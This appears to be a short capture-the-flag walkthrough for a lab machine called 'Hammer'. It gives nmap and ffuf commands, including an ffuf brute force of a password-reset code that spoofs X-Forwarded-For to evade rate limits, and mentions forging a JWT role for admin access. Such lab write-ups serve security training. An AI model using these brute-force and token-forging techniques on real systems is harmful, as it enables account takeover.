# Hammer 



At First scan with nmap 

```cmd
nmap -sV -sC -p <ip address> 
```



search

```cmd
http://ip address:1337
```



And then find inspect



```cmd
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.193.250:1337/hmr_FUZZ
```





Click error.logs 



use burpsuite to get cookieid 



get cookie and add in ffuf

```cmd
ffuf -w numbers.txt -u "http://10.48.188.218:1337/reset_password.php" -X "POST" -d "recovery_code=FUZZ&s=60" -H "Cookie: PHPSESSID=dsvhhedt6n9l643k6ksqfkfcau" -H "X-Forwarded-For: FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -fr "Invalid" -s
```
get code


get Flag 1



login and use burpsuite using typing command



Find this 



And go to Jwt Site to convert the token get from burpsuite



Change payload and role



Fing the flag

